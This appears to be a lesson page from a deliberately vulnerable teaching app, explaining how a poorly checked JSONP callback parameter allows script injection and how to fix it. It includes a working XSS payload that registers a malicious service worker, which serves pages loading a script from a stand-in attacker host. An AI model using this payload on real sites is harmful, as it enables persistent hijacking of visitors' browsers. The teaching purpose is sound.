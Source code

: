 # Poor JSON with Padding (JSONP) Implementation

### What's the vulnerability?

[JSONP] is commonly used to circumvent things like [Same-Origin Policy](https://developer.mozilla.org/en-US/docs/Web/Security/Same-origin_policy) if you are trying to fetch data asynchronously from a different domain. For this the developer will expose a function in the global namespace that should be called when the data is being received. To then request the data, they inject a new `script` tag into the page to a [JSONP] enabled endpoint with a `callback` parameter that specifies the function name that should be called.

The server then wraps the data that it's returning into the respective function call:

```js
// Example /jsonp?callback=myDataCallback
// server responds with:
myDataCallback({ data: [/*...*/] })
```

If a [JSONP] endpoint is poorly implemented you could use this to generate your own JavaScript though:

```js
// Example /jsonp?callback=alert(1);//
alert(1);//({ data: [/*...*/]})
```

As you can see we are not even interested in the actual data in this case. But we can use this in combination with an existing XSS vulnerability for example to install [dangerous service worker implemenations](https://c0nradsc0rner.wordpress.com/2016/06/17/xss-persistence-using-jsonp-and-serviceworkers/).

### How can the vulnerability be tested?

You can try this by combining it with our [existing XSS vulnerability](cross-site-scripting.md) in the application by visiting the [home page] and posting the following content:

```markdown
[You won't believe this!!!!!!](javascript&#58this;navigator.serviceWorker.register("/post?callback=onfetch=function(e&#41;{if(!(e.request.url.indexOf(':4000'&#41;>0&#41;&#41;{e.respondWith(new	Response('<h1>Hacked</h1><script	src=\\'https://evil.onesie.life/hook.js\\'	type=\\'text/javascript\\'></script>',	{headers:	{'Content-Type':'text/html'}}&#41;&#41; }else{e.fetch(e.request&#41;}}//"&#41;)
```

If you then click the link, it will install a service worker. From that point on any resource the browser is trying to fetch will be overriden with the following HTML:

```html
<h1>Hacked</h1>
<script src="https://evil.onesie.life/hook.js"></script>
```

While in this case we are overriding the whole HTML an attacker could also fetch the original one and only append/inject their own script. 

To uninstall the service worker in Chrome open the developer tools, click on the Applications tab and unregister the service worker you see.

### What causes this vulnerability?

By not properly checking the value of the `callback` query parameter we basically allow to pass in aribitary JavaScript since the attacker could just end their input with `//` to turn the remaining part into a comment.

Since [Service Workers] have to be from the same domain as the page itself, it's the perfect way for an attacker to inject their own service worker.

### How can this be fixed?

You should either only whitelist a set of valid `callback` values or verify that the callback parameter only contains word characters but nothing else. 

### Resources/References
- [XSS persistence using JSONP and serviceWorkers](https://c0nradsc0rner.wordpress.com/2016/06/17/xss-persistence-using-jsonp-and-serviceworkers/)
- [OWASP: From JSONP to XSS Persistence](https://www.owasp.org/images/3/35/2017-04-20-JSONPXSS.pdf)

[JSONP]: https://en.wikipedia.org/wiki/JSONP
[home page]: https://onesie.life/home
[login page]: https://onesie.life/login
[Service Workers]: https://developer.mozilla.org/en-US/docs/Web/API/Service_Worker_API